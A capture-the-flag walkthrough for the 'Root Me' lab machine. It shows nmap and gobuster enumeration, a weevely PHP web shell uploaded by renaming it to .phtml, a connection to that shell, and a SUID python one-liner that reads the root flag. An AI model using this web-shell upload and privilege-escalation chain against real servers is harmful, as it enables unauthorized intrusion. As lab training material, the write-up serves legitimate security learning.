 # Root Me
## Enumeration
``` 
nmap -sV -sS -A -o nmap.out {your ip}
In Nmap I found:
Port 80 Is Running Apache Server
Port 22 Is Running SSH
```
```
# Nmap 7.80 scan initiated Sun May  9 21:44:56 2021 as: nmap -sV -sS -A -o nmap.out 10.10.85.5
Nmap scan report for 10.10.85.5
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   58.49 ms  10.17.0.1
2   ... 4
5   198.58 ms 10.10.85.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  9 21:46:45 2021 -- 1 IP address (1 host up) scanned in 110.05 seconds
```
# website Lookup
```
Nothing In Website
So i started gobuster
gobuster -u {your ip} -w /usr/share/dirb/wordlists/common.txt
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/buster.png)
```
Found /panel and /uploads
In Panel We Have Access To Upload Files.
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/panel.png)
```
I Fired Up Terminal And Immediately Installed weevely
About Weevely:
Weevely Is A PHP reverse shell listener and creator 
command = weevely generate {your pass} shell.php 
 shell.php 
Lets Upload It Now.
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/php-not-allow.png)
#### I Transalated It Using Google Transalate
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/transalate.png)
#### Php Is Not Allowed
#### Lets See Hint Which FILE UPLOAD BYPASS
#### I googled It And Got This
### So i Renamed From .php to .phtml
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/uplaod.png)
### Now It Is Uploaded
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/success.png)
```
I Remember I Also Found A Hidden Directory Named /uploads In Gobuster Lets Visit it Now
```
### Thats All We Need Lets Open It shell.phtml
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/uploads.png)

### Now I Fired Terminal And Typed
```
weevely http://{your-ip}/uploads/shell.phtml 5142
```
## Boom I Got A Reverse Shell
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/rev-shell.png)
### Lets CD To user.txt
```
user.txt was present inside /var/www/
```
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/user.png)
# Privilage Escalation
### We Got Nothing using sudo -l
### So I Started Search For Files with SUID Permission
```
find / -user root -perm /4000
```
### /usr/bin/python is Too Suspicious
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/python-weird.png)
### I Know A Trick Here To Get Root.txt 
```
python -c 'print(open("/root/root.txt").read())'
```
## Boom Escalation In Less Than 30 Seconds
![Alt](https://raw.githubusercontent.com/pmk456/root_me_ctf/main/images/priv.png)
# Machine Hacked By Patan Musthakheem Khan
##### github.com/pmk456
